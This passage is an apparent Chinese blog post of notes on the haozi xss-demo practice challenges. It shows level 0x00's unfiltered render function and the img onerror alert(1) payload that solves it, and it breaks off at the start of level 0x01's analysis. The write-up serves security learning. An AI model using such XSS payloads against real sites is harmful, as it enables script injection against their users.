 ```yaml
---
layout: post
title: haozi xss-demo 在线做题笔记
comments: false
description: ""
keywords: "Vulnerability"
---
```


一款在线xss题目，haozi师傅开发，页面很舒服，很喜欢；

目的：弹出alert(1);即可

项目：[https://github.com/haozi/xss-demo](https://github.com/haozi/xss-demo)

地址：[https://xss.haozi.me](https://xss.haozi.me)

自带alert(1)的js地址：[https://xss.haozi.me/j.js](https://xss.haozi.me/j.js)

## 0x00

server code:

```
function render (input) {
  return '<div>' + input + '</div>'
}
```

Analysis:

```
没过滤，直接输出在div标签中；
```

input code:

```
<img src=x onerror="alert(1)">
```

html:

```
<div><img src=x onerror="alert(1)"></div>
```

## 0x01

server code:

```
function render (input) {
  return '<textarea>' + input + '</textarea>'
}
```

Analysis:
